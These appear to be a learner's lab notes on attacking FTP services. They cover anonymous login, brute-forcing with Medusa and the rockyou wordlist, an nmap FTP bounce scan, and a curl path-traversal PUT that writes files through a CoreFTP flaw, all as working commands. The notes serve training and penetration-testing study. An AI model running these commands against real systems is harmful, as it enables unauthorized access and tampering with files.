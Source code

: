 # Misconfigurations
- Try anonymous login
	- `ftp <IP>`
	- `anonymous:<no password>

# Protocol Specific attack
- Brute forcing with Medusa
	- `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp `
		- `-u` for single user
		- `-U` for list of usernames
		- `-P for list of passwords`

- FTP bounce attack
	- Have an open FTP server, and another target machine
	- FTP connected to target machine, target machine may not be accessible by internet
	- Can use the FTP connection to scan the target machine and obtain info about the server's open ports
	- Old school FTP uses 2 connections: control channel (commands) and separate data connection for file listings/transfers
		- With the PORT command, a client can tell the FTP server "send the data to *this* IP:port"
	- TLDR; the FTP server makes the network connections on your behalf
	- ` nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
		- `-b`: FTP bounce attack
		- FTP server is 10.10.110.213, uses it to check if port 80 on 172.17.0.2 is open

# Latest Vulnerablity: CoreFTP beforebuild 727
- FTP service uses HTTP Post request to upload files
- However, CoreFTP service allows HTTP PUT request, allowing us to **write content to files**
- `curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops`
	- Bypass constraints using escape characters
	- Arbitrary file write to target
	- Creates file "whoops" with content "PoC."